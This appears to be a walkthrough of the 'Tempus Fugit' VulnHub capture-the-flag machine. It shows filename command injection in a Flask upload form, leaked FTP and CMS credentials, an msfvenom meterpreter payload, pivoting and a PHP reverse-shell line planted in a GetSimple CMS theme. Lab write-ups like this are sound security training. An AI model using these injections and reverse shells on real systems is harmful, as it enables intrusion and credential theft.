<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/tempus-fugit-1,346/">Tempus Fugit</a>
  <br>
</h1>

<h4 align="center"> Author:
    <a href="https://twitter.com/DCAU7"> DCAU7</a>
    <a href="https://twitter.com/4nqr34z"> 4nqr34z</a>
</h4>

***

Be warned - this isn’t your traditional VM - there are surprises, and while somethings worked for me, it may very well be different for you.
Do not Copy paste things from the writeup try to follow it and

***

## Nmap



I ran the nmap scan twice just to make sure I am not missing out anything. So there is only one port open, we don't have choice but to enumerate port 80.

***

## HTTP


Oh I love these beautifully designed websites.

I ran `gobuster` on the website but it had wildcard response on meaning it gave 200 for every word in the list. To know more about wildcard response read [this](https://github.com/OJ/gobuster/issues/26).

In the `about` section we can see the explanation for `Tempus fugit` phrase but it also talks something about uploading a file and keeping it to FTP server.



We can see an `upload` option on the top right side. I uploaded a shell and got an error about file types.


Now I don't know about `txt` but `rtf` sounds a bit suspicious. I searched for `rtf reverse shell` and got link to `RCE via rtf` files but all the available exploits were for windows system.

Then I decided to intercept the requests while submitting the form and see if I can find something.



I was getting a redirect response in burp but I couldn't figure out so [@4nqr34z](https://twitter.com/4nqr34z) gave me a hint. He said `play with the file name and see the output in the browser`. So I did that, I changed the name of the file as `shell.txt;id` and sent the request and in my browser I could see output of the `id` command.



__NOTE__: if you get confused with all this burp and browser thing then you can just do it but editing your file name and re-uploading it with different commands. Like make a file with name `shell.txt;id` and upload it you'll see the output. Then rename the file to `shell.txt;ls` to see that output and so on.

If we run a command like `ls -la` we'll get the following output:

```
total 44
drwxr-xr-x 1 root root 4096 Aug 14 22:12 .
drwxr-xr-x 1 root root 4096 Aug 12 18:01 ..
drwxr-xr-x 1 root root 4096 Aug 12 10:20 __pycache__
-rw-r--r-- 1 root root 2226 Aug 12 10:20 main.py
-rw-r--r-- 1 root root 204 May 17 02:43 prestart.shn
drwxr-xr-x 6 14534190 dialout 4096 Aug 9 12:27 static
-rw-r--r-- 1 root root 2 Aug 14 22:12 supervisord.pid
drwxr-xr-x 1 14534190 dialout 4096 Aug 12 17:48 templates
drwxr-xr-x 1 root root 4096 Aug 15 05:08 upload
-rw-r--r-- 1 root root 37 May 17 02:43 uwsgi.ini
```




When I tried to run `whoami` with the filename as `shell.txt;whoami` I got `root`.



This mean that we are running commands with `root` privilege. But running other commands like for reverse shell or something isn't easy because if we do something like `file.txt; nc -e /bin/sh IP PORT` we won't get anything or maybe an error saying `what are you trying to do`.

So I decided to read the files name `main.py` by uploading a filename `shell.txt;cat main*`.

__Note__: If we upload a file named `shell.txt;cat main.py` then the actually extension for the uploaded file will be `.py` which isn't allowed.



We can see the python code. It looks like a flask app. I reformatted the code to actually see what was happening.

```python
import os
import urllib.request
from flask import Flask, flash, request, redirect, render_template
from ftplib import FTP
import subprocess

UPLOAD_FOLDER = 'upload'
ALLOWED_EXTENSIONS = {
  'txt',
  'rtf'
}
app = Flask(__name__)
app.secret_key = "mofosecret"
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024

@app.route('/', defaults = {
  'path': ''
})
@app.route('/<path:path>')
def catch_all(path):
    cmd = 'fortune -o'
    result = subprocess.check_output(cmd, shell = True)
    return "<h1>400 - Sorry. I didn't find what you where looking for.</h1> <h2>Maybe this will cheer you up:</h2><h3>" + result.decode("utf-8") + "</h3>"

@app.errorhandler(500)
def internal_error(error):
    return "<h1>500?! - What are you trying to do here?!</h1>"

@app.route('/')
def home():
    return render_template('index.html')

@app.route('/upload')
def upload_form():
    try:
        return render_template('my-form.html')
    except Exception as e:
        return render_template("500.html", error = str(e))

def allowed_file(filename):
    check = filename.rsplit('.', 1)[1].lower()
    check = check[: 3] in ALLOWED_EXTENSIONS
    return check

@app.route('/upload', methods = ['POST'])
def upload_file():
    if request.method == 'POST':
        if 'file' not in request.files:
            flash('No file part')
            return redirect(request.url)

    file = request.files['file']

    if file.filename == '':
        flash('No file selected for uploading')
        return redirect(request.url)

    if file.filename and allowed_file(file.filename):
        filename = file.filename
        file.save(os.path.join(UPLOAD_FOLDER, filename))
        cmd = "cat " + UPLOAD_FOLDER + "/" + filename
        result = subprocess.check_output(cmd, shell = True)
        flash(result.decode("utf-8"))
        flash('File successfully uploaded')
        try:
            ftp = FTP('ftp.mofo.pwn')
            ftp.login('someuser', 'b232a4da4c104798be4613ab76d26efda1a04606')
            with open(UPLOAD_FOLDER + "/" + filename, 'rb') as f:
                ftp.storlines('STOR %s' % filename, f)
                ftp.quit()
        except:
            flash("Cannot connect to FTP-server")
            return redirect('/upload')
    else :
        flash('Allowed file types are txt and rtf')
        return redirect(request.url)

if __name__ == "__main__":
    app.run()
```

The first thing we notice is that there is a FTP server in play.

```python
ftp = FTP('ftp.mofo.pwn')
ftp.login('someuser', 'b232a4da4c104798be4613ab76d26efda1a04606')
```

If we crack the SHA1 i.e `b232a4da4c104798be4613ab76d26efda1a04606` we'll get `$HEX[6d6f666f0a]`



Decoding `6d6f666f0a` hex to text we'll get `mofo` 😜😜



And for obvious reason we can't connect to the FTP server.

I tried reading other files but none of them had anything interesting so I decided to focus on the app's source code.

***

If we look in the `upload_file()` function there is a section that check if the right extension of file is uploaded or not and then process its.

```python
if file.filename and allowed_file(file.filename):
        filename = file.filename
        file.save(os.path.join(UPLOAD_FOLDER, filename))
        cmd = "cat " + UPLOAD_FOLDER + "/" + filename
        result = subprocess.check_output(cmd, shell = True)
        flash(result.decode("utf-8"))
        flash('File successfully uploaded')
```

Here the `UPLOAD_FOLDER` is `upload`. So say if we upload `shell.txt;id` following thing will happen.

* cmd = "cat upload/shell.txt;id"
* Then it's passed to subprocess call that is the reason we see content of our file but when subprocess encounters `;` it process the next string as another command so it append the output of `id` to our file content.

The problem I was having was to figure out why I was getting `501` error when we do something like `shell.txt;ls -la /root`.

Then I uploaded a file name `shell.txt;nc -e sh decimalIP PORT`, here the `decimalIP` is the IPv4 address converted to decimal value using a [script](https://github.com/4ndr34z/MyScripts/blob/master/ip2dh.py) @4ndr34z wrote.



__NOTE__: This whole thing is kind of mess because command injection isn't working with anything that involves `/`. So normal commands like `ls /root` etc wasn't working.

If we upload the file with that name and our listener listening we'll get a reverse shell.



Since we got shell as root I immediately `cd` to `/root` to get the flag but there was nothing.



😡😡😡

***

I ran the enumeration script



we are root for sure.



There is another user named `operator` which can access `/root` with `bash`.



There was no SUID not even the `su` or the common ones.



We can't read any cron file. This confirms that we are in some kind of jail or maybe not.

I started to look in the `/root` directory and there was a folder name `.ncftp`



In that I found a file name `trace.234` which had an IP address in it.



I decided to port scan that IP address to see if it has to do anything here and I got a port 21 open.

```bash
$ for i in $(seq 1 65535); do nc -nvz -w 1 172.19.0.12 $i 2>&1; done | grep -v "Connection refused"
```



***

## FTP

I connected to the `172.19.0.12` on port 21 using the credentials I found in the `main.py` i.e `someuser:b232a4da4c104798be4613ab76d26efda1a04606`.

After login I got credential for some `CMS`.



`admin:hardEnough4u`

Now we just have to find the DAMN CMS.

Again in the `/root` directory, in a file named `.python_history` I found `credentials` and `IP` for another FTP server.



IP: `10.10.8.3`
`someuser:myD3#2p$a%s&s`

I tried connecting to it but it seemed that that host was down.

I kept on looking for sometime but couldn't figure out the location for CMS. So again I asked @4ndr34z and he said to `scan the subnet` so I installed `nmap` on the system and scanned the subnet `172.19.0.0/16`.

`nmap -sn 172.19.0.0/16`



We've got 4 IP
* 172.19.0.12
* 172.19.0.1
* 172.19.0.10
* 172.19.0.100

We've already scanned the first one from which we got the creds for CMS.

Let's scan the other two to see if we can find anything good.

* On `172.19.0.100` we find a DNS port opened.
* On `172.19.0.10` is the interface we are on right now meaning this is the internal IP of the machine.
* On `172.19.0.12` we found the FTP server which gave us CMS creds.

Now the only remaining Ip is `172.19.0.1`. I ran nmap scan on this.



Since there is `proxy` we'll have to use that to access it. Or the better way is to get reverse shell using `meterpreter` and then use it's command to portfoward.

***

## Reverse shell with msf

I had to created reverse shell in totatlly different manner.

* Make a reverse shell code using msfvenom
    - msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.1.107 lport=4444 -f elf > shell.elf

* Then transfer it to the machine using wget
* chmod +x shell.elf
* Run msfconsole
    - use exploit/multi/handler
    - set lport 4444
    - set payload linux/x86/meterpreter/reverse_tcp
    - run



* now run the `shell.elf` on the system
* You'll get a meterpreter shell on this
* run `shell` and then run `netstat -ntlp` and kill the `nginx` process.



* Now break out of the normal shell and then run
    - portfwd add -l 8080 -p 8080 -r 172.19.0.1
* This way we can connect to port 8080 to find the website `172.19.0.1:80` which is actually a Apache2 default page.


Before we connect to the website let's just use `dig` command to find some domain information. To use `dig` we'll have to install `bind-tools`.

Run -> `apk add bind-tools`

Now we know that there was `ftp.mofo.pwn` on `172.19.0.12` so let's run `dig axfr mofo.pwn` and see if we can find cms domain.



We are looking for `ourcms.mofo.pwn` so now let's just edit the `/etc/hosts` to be able to access it.

`127.0.0.1 ourcms.mofo.pwn`

We used local host IP because we are port forwarding.

Now if we visit `ourcms.mofo.pwn:8080` we'll see that CMS



***

## CMS

Since this is the `GetSimple` CMS we can just open the login panel using `/admin` and then use the creds(`admin:hardEnough4u`) we found to login.

Now we can see that we are admin so we can just edit the theme to get a reverse shell.

I add  `<?php exec('nc -e /bin/sh 192.168.1.107 5689'); ?>` to the end of theme code.



Now go to any page and click on the `view` button to get a shell.



***

## Privilege escalation

I am finally into the main system so now I can run the enumeration script to find a way to escalate to some other user.



There were lot of users but I can't find anyway to get around anything. That's when I got another hint to use responder along with wireshark.

I did that, I ran wireshark and along with that I had responder running and then I got the password for `adair` user.

